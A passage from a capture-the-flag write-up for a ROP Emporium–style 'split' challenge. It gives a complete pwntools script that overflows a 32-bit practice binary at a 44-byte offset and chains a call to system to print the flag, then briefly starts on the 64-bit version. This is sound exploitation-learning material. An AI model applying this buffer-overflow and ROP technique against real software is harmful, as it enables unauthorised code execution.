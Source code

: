 we run it and get the flag.
There is an autopwn script for this challenge, without using all this code.

we will have to look for the offset manually.
There is no need looking for the system address we can go straight to the bin/cat/
We will us `ROP object`

## Autopwn

```python
from pwn import *

# This will automatically get context arch, bits, os etc
elf = context.binary = ELF('./split32', checksec=False)
p = process()

# How many bytes to EIP?
padding = 44

# Locate the functions/strings we need
bincat_addr = next(elf.search(b'/bin/cat'))

# Print out the target address
info("%#x /bin/cat", bincat_addr)

# Get ROP gadgets
rop = ROP(elf)
# Create rop chain calling system(and pass it'/bin/cat flag.txt')
rop.system(bincat_addr)

# pprint(rop.gadgets)
print(rop.chain()) # info(rop.chain())

# Inject rop chain at correct offset
payload = fit({padding: rop.chain()})

# Save payload to file
write("payload", payload)

# PWN
p.sendlineafter('>', payload)
p.recvuntil('Thank you!\n')

# Get our flag!
flag = p.recv()
success(flag)
```


Step 2 64 bit program
---

We perform the usuall running of the program and see that it crashes with a segmentation fault. It crashes With us not seeing whats in the `instruction pointer RIP`. We can use the last 4 bytes at the end of the `RBP (Base pointer)` WE get 40 bytes.
Just like the 32 bit we check the system call and the /bin/cat/flag.txt addresses and use them.
